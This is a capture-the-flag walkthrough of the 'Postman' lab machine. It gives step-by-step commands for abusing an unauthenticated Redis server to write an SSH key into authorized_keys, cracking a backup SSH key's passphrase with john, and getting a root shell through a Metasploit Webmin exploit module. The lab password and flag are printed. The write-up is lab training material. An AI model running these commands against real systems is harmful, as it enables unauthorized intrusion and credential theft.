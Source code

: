 ## Postman

### Lab Details 

- Difficulty: Easy
- Type: Redis, Webmin, SSH, Priv Esc, Linux

#### Tasks
Q1: What version of Redis is running on port 6379?
- run `nmap -sT -T4 -vv -A -p- -oA Postman target_ip`
```
6379/open/tcp//redis//Redis key-value store 4.0.9/
```

Q2: What is the config directory for redis?
- to find the config directory for redis firt need to connect to redis services 
`redis-cli -h target_ip`
- then locate the config directory by running below `config get dir` or `config get *` to get all configuration settings
```
10.10.10.160:6379> config get dir 
1) "dir"
2) "/var/lib/redis" -> this is the config directory 

10.10.10.160:6379> config get * 
...
##return a list of key-value pairs where each key is a configuration parameter and the corresponding value is its current setting.
1) "dbfilename"         #Key: Name of the RDB snapshot file
2) "dump.rdb"           #Value: Default filename
3) "requirepass"        #Key: Password for authentication
4) ""                   #Value: no password set  
5) "dir"                #Key: Directory for persistence files
6) "/var/lib/redis"     #Value: Default storage directory 
...
165) "dir"              #Key:  Working directory where Redis stores
166) "/var/lib/redis"   #Value: The directory where Redis saves its persistent data
...
```

Q3: As which user you can get code execution through Redis?
- since requirepass is no value which means anyone can access/modify data remotely 
- check if we can run whoami on redis remote by running `ACL whoami` however return error
```
10.10.10.160:6379> ACL whoami
(error) ERR unknown command 'ACL'
```
- check remote version
```
10.10.10.160:6379> info server
# Server
redis_version:4.0.9
```
- test if we have write permission over remote redis service 
``` 
10.10.10.160:6379> set test:write "hello world"
OK
```
- in the end i wasnt able to get the name from remote instance so i tried default and then redis and redis is the correct answer i think its might be due to the config location sometimes it can be at /home/redis and /home is where local user directory resides

Q4: What's the full path of an SSH backup key that redis can read?
- in order to read the path we will need to first gain the initial foodhold over the remote target
- we can exploit the lack of write restriction by uploading self generated public key to the remote target 
- below are lins to useful posts on how to perform such attack
  - https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e419 - https://secybr.com/posts/redis-pentesting-best-practices/
- gist as per below
```
$: ssh-keygen -t rsa
$: (echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt
$: cat foo.txt | redis-cli -h 10.10.x.x -x set crackit
$:  redis-cli -h 10.10.x.x
10.10.x.x:6379> config set dir /var/lib/redis/.ssh/
OK
10.10.x.x:6379> config set dbfilename "authorized_keys"
OK
10.10.x.x:6379> save
OK
```
- after uploading the public key to remote we can ssh in using the corresponding private key and user named redis
```
ssh -i id_rsa redis@target_ip
```
- we get a shell as redis
```
redis@Postman:~$ whoami
redis
```
- run linpeas.sh to gain more info on the target, we found `id_rsa.bak` for user Matt
```
╔══════════╣ Backup files (limited 100)
-rwxr-xr-x 1 Matt Matt 1743 Aug 26  2019 /opt/id_rsa.bak 
```
- the last permission bit gives others rx access

Q5: What is the password for the SSH key?
- the private key requires password when `ssh -i id_rsa Matt@target_ip`
- therefore need to crack it, below is using john as hashcat does not support ssh hash type
```
$: ssh2john id_rsa > rsa.hash 
$: john --wordlist=/usr/share/wordlists/rockyou.txt rsa.hash 
...
computer2008     (id_rsa_matt)
```

Q6: Which user uses the same password as the one used to decrypt the SSH key?
 - Matt is the user as its owned by Matt

Q7: Submit the flag located in the Matt user's home directory.
- `cat /home/Matt/user.txt`

Q8: Which vulnerable version of Webmin is running on the machine?
- found theres `/usr/share/webmin/` directory on the machine and there is a version file in that directory 
- `cat version` -> 1.910 
```
╔══════════╣ Analyzing Postfix Files (limit 70)
...
drwxr-xr-x 5 root root 12288 Aug 25  2019 /usr/share/webmin/postfix
```


Q9: Which user does the Webmin instance run as?
- based on the output of linpeas.sh webmin is running as root 
```
════════════════╣ Processes, Crons, Timers, Services and Sockets ╠════════════════                            
                ╚════════════════════════════════════════════════╝                                            
╔══════════╣ Cleaned processes
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes
...
root        724  0.0  3.1  90944 28832 ?        Ss   11:51   0:00 /usr/bin/perl /usr/share/webmin/miniserv.pl /etc/webmin/miniserv.conf
...
```


Q10: Submit root flag
- use linux/http/webmin_packageup_rce from msfconsole
- set SSL = True and the rest of the info, username is Matt and password is computer2008
- will get a root shell back 
```
root@Postman:/usr/share/webmin/package-updates/# cat /root/root.txt
cat /root/root.txt
2b45ad724078db87b9cbb053aaa9ada5
```



#### Lesson Learned
- learned how to compromise weakly configured redis server but using readily available info
- use john to crack ssh private key passwords
